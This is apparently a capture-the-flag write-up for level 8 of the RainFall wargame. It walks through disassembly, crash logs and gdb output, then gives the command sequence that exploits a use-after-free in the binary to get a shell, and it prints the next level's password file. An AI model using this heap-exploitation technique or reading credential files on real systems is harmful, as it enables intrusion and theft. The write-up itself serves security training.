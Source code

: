 # Write up

By reading the disassembled code, we directly thought about an Use after free exploit, this part especially :
```
 8048667:	85 c0                	test   eax,eax
 8048669:	75 0d                	jne    8048678 <main+0x114>
 804866b:	a1 ac 9a 04 08       	mov    eax,ds:0x8049aac
 8048670:	89 04 24             	mov    DWORD PTR [esp],eax
 8048673:	e8 a8 fd ff ff       	call   8048420 <free@plt>
 8048678:	8d 44 24 20          	lea    eax,[esp+0x20]
```
Is extremely suspicious, I wonder why the free call is escaped ? :)

While noticing various keywords in the source code, I try to execute a "auth " (The space is important) command once to set the first pointer , then reset twice to get a double free crash :
```
*** glibc detected *** ./level8: double free or corruption (fasttop): 0x0804a008 ***
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x74f82)[0xb7ea0f82]
./level8[0x8048678]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xb7e454d3]
./level8[0x80484d1]
======= Memory map: ========
08048000-08049000 r-xp 00000000 00:10 12259      /home/user/level8/level8
08049000-0804a000 rwxp 00000000 00:10 12259      /home/user/level8/level8
0804a000-0806b000 rwxp 00000000 00:00 0          [heap]
b7e07000-b7e23000 r-xp 00000000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
b7e23000-b7e24000 r-xp 0001b000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
b7e24000-b7e25000 rwxp 0001c000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
b7e2b000-b7e2c000 rwxp 00000000 00:00 0
b7e2c000-b7fcf000 r-xp 00000000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fcf000-b7fd1000 r-xp 001a3000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fd1000-b7fd2000 rwxp 001a5000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fd2000-b7fd5000 rwxp 00000000 00:00 0
b7fd8000-b7fdd000 rwxp 00000000 00:00 0
b7fdd000-b7fde000 r-xp 00000000 00:00 0          [vdso]
b7fde000-b7ffe000 r-xp 00000000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
b7ffe000-b7fff000 r-xp 0001f000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
b7fff000-b8000000 rwxp 00020000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]
Aborted (core dumped)
```
By using the reset command, the auth pointer isn't NULL'ed, which triggers a double free if we execute free on it again.
Running a login command triggers a segv :
```
(gdb) run
Starting program: /home/user/level8/level8
(nil), (nil)
login

Program received signal SIGSEGV, Segmentation fault.
0x080486e7 in main ()
```
`0x080486e7` which is the address where we add 32 bytes to the auth command pointer address.
However, the segv disappears if we execute reset before executing the login command :
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
reset
0x804a008, (nil)
login
Password:
```
I notice then than the service command overwrite the auth address if we use it after auth was freed.
The main difference here is that the service command size isn't size limited, also we can reallocate it to move the pointer further.
Which let us bypass the null byte check and get our shell, Hooray !
```
./level8
(nil), (nil)
auth aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a008, (nil)
reset
0x804a008, (nil)
servicaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a008, 0x804a018
servicaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a008, 0x804a048
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## Sources

https://beta.hackndo.com/use-after-free/
https://www.developpez.net/forums/d25009/autres-langages/assembleur/x86-32-bits-64-bits/quoi-sert-l-instruction-test-eax-eax/
https://www.gladir.com/LEXIQUE/ASM/repz.htm
https://stackoverflow.com/questions/44630262/what-do-the-assembly-instructions-seta-and-setb-do-after-repz-cmpsb